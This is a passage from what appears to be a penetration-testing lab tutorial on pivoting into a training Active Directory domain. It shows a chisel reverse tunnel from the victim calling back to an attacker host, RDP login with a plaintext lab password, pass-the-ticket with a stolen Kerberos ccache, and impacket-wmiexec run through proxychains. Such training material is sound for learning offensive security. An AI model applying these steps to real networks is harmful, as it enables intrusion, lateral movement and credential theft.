### Proxychains Configuration File
```shell-session
$ cat /etc/proxychains.conf

<SNIP>

[ProxyList]
socks5 127.0.0.1 1080
```

We must download and execute [chisel](https://github.com/jpillora/chisel) on our attack host.

### Download Chisel to our Attack Host
```shell-session
$ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
$ gzip -d chisel_1.7.7_linux_amd64.gz
$ mv chisel_* chisel && chmod +x ./chisel
$ sudo ./chisel server --reverse 

2022/10/10 07:26:15 server: Reverse tunneling enabled
2022/10/10 07:26:15 server: Fingerprint 58EulHjQXAOsBRpxk232323sdLHd0r3r2nrdVYoYeVM=
2022/10/10 07:26:15 server: Listening on http://0.0.0.0:8080
```

### Connect to the Remote Computer with xfreerdp
```shell-session
$ xfreerdp /v:10.129.204.23 /u:david /d:inlanefreight.htb /p:Password2 /dynamic-resolution
```

### Execute chisel from the Remote Computer
```cmd-session
C:\htb> c:\tools\chisel.exe client <attacker ip>:8080 R:socks
```

Finally, we need to transfer Julio's ccache file from `LINUX01` and create the environment variable `KRB5CCNAME` with the value corresponding to the path of the ccache file.

### Setting the KRB5CCNAME Environment Variable
```shell-session
$ export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133
```

### Impacket

To use Kerberos ticket we must specify the target machine name (not IP address), we can include `-no-pass` if we get a prompt for a password.

#### Using Impacket with proxychains and Kerberos Authentication
```shell-session
$ proxychains impacket-wmiexec dc01 -k
```
